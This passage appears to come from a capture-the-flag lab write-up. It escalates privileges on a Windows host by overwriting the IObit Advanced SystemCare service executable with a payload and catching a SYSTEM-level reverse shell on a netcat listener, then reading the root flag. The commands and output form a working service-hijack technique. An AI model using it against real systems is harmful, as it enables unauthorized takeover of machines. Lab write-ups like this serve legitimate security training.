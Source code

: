 ```bash
PS > Stop-Service -Name AdvancedSystemCareService9
PS > cp Advanced.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
PS > Start-Service -Name AdvancedSystemCareService9
ERROR: Start-Service : Failed to start service 'Advanced SystemCare Service 9 (AdvancedSystemCareService9)'.
ERROR: At line:1 char:1
ERROR: + Start-Service -Name AdvancedSystemCareService9
ERROR: + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ERROR:     + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Start-Service],
ERROR:    ServiceCommandException
ERROR:     + FullyQualifiedErrorId : StartServiceFailed,Microsoft.PowerShell.Commands.StartServiceCommand
ERROR:
```

The listener should catch a shell:

```bash
root@ip-10-10-95-132:~/workspace# nc -lvnp 4443
Listening on [0.0.0.0] (family 0, port 4443)
Connection from 10.10.28.113 49278 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

With SYSTEM privileges, we can now access the root flag.

```bash
C:\Users>dir /S /B *txt*
dir /S /B *txt*
...
C:\Users\Administrator\AppData\Local\Temp\Setup Log 2019-09-26 #001.txt
C:\Users\Administrator\AppData\Local\Temp\Setup Log 2019-09-26 #002.txt
C:\Users\Administrator\AppData\Roaming\IObit\Advanced SystemCare\Startup Manager\SMLog.txt
C:\Users\Administrator\Desktop\root.txt
C:\Users\All Users\Amazon\EC2-Windows\Launch\Readme.txt
C:\Users\All Users\Microsoft\Windows\WER\ReportQueue\AppCrash_jenkins.exe_6f8aa3215db274dc49ee4e90f6883d5934f72fe6_def429b2_cab_09d548a3\WER4846.tmp.appcompat.txt
C:\Users\bill\AppData\Local\Microsoft\Internet Explorer\brndlog.txt
C:\Users\bill\Desktop\user.txt
```

```bash
C:\Users>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
9af5f314f57607c00fd09803a587db80
```

## Access and Escalation without Metasploit
